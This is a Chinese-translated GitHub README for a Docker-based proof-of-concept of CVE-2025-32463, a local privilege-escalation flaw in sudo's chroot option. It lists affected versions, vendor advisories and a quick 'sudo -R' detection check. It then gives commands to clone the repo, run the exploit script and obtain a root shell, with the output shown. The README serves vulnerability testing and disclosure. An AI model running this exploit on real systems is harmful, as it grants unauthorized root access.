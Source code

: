 ﻿
# CVE-2025-32463 – sudo chroot（“chwoot”）PoC

本仓库提供了一个最小且可复现的环境，用于演示 `sudo` chroot 功能中的 **CVE‑2025‑32463** 权限提升漏洞。
- 该漏洞由 [Rich Mirch](https://www.stratascale.com/team/rich-mirch)（X 上的 [@0xm1rch](https://x.com/0xm1rch)）@ [Stratascale](https://www.stratascale.com/) 报告。
- 原始发布：[漏洞通告：Sudo chroot 权限提升](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD：[CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)（CVSS 9.3）

---

## 受影响版本

> 大多数 Linux 发行版中，**sudo 1.9.14** 到 **1.9.17**（所有 p 版本）存在漏洞。

安全页面
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463)（CVSS 9.3）
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463)（CVSS 7.8）
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html)（CVSS 7.8）
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## 内容

| 文件               | 目的                                                                               |
| ------------------ | ---------------------------------------------------------------------------------- |
| **Dockerfile**     | 构建带有漏洞的 **sudo 1.9.16p2** 及构建工具的 Ubuntu 24.04 镜像                   |
| **sudo‑chwoot.sh** | 演示概念利用，生成在 chroot 内的 root shell                                        |
| **run.sh**         | 辅助脚本，用于构建镜像（如有需要）并启动利用容器                                  |

---

## 快速漏洞检测

```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## 在Docker容器中测试漏洞利用


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` 传递 `--privileged` 和 `--rm` 给 Docker，因此当你退出时，容器会自动清理自己。

---

## 清理

完成后删除镜像：


```bash
docker rmi sudo-chwoot
```
---

## 参考资料

- Stratascale CRU 漏洞说明：[漏洞通告：Sudo chroot 提权漏洞](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---
